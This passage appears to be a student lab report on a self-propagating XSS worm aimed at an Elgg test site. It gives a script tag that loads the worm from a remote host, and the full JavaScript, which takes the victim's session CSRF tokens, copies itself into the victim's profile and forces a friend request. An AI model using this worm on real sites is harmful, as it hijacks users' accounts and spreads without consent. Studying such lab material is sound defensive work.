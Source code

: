 <div style="page-break-after: always;"></div>

## TASK06: Self-Propagating XSS Worm

### 6.1 Link Approach

We implemented the attack by putting a malicious Javascript file into the "*www.example.com/xss/task06/xss_worm.js*". 
After that, we imported the malicious JS file from the "**About Me**" by the codes below:

```html
<script type="text/javascript" 
    src="http://www.example.com/xss/task06/xss_worm.js">
</script>
```

The codes in the "*xss_worm.js*" file is shown in the codes section below. There are two functions: `infectToProfile` and `addSamyAsFriend`. In the first, it will modify the value of the "**About Me**" to make it same with the Samy's one. As to the second, it make the victim add Samy as friend. 

```javascript
// Infect To Profile Function 
function infectToProfile(){
    let sendurl = "http://www.xsslabelgg.com/action/profile/edit";
    let description = '<script type=text/javascript '
        + 'src="http://www.example.com/xss/task06/xss_worm.js">'
        + '</' + 'script>'; // To avoid the end tag issue
    let content = '&name=' + elgg.session.user.name
        + '&guid=' + elgg.session.user.guid
        + '&__elgg_ts=' + elgg.security.token.__elgg_ts //Elgg Timestamp
        + '&__elgg_token=' + elgg.security.token.__elgg_token //Elgg Token
        + '&description=' + description + '&accesslevel[description]=2'; 
    let Ajax=new XMLHttpRequest();
    Ajax.open("POST",sendurl,true);
    Ajax.setRequestHeader("Host","www.xsslabelgg.com");
    Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    Ajax.send(content);
}
// Add Samy As Friend 
function addSamyAsFriend () {
    let sendurl = 'http://www.xsslabelgg.com/action/friends/add?friend=47'
        +'&__elgg_ts=' + elgg.security.token.__elgg_ts //Elgg timestamp
        +'&__elgg_token=' + elgg.security.token.__elgg_token; //Elgg Token
    let Ajax = new XMLHttpRequest();
    Ajax.open("GET",sendurl,true);
    Ajax.setRequestHeader("Host","www.xsslabelgg.com");
    Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
    Ajax.send();
}

window.onload = function () {
    // Make sure it will not changed Samy's profile
    // And ensure Samy will not add himself as friend 
    if(elgg.session.user.guid!=47){ 
        infectToProfile();
        addSamyAsFriend();
    }
}

```
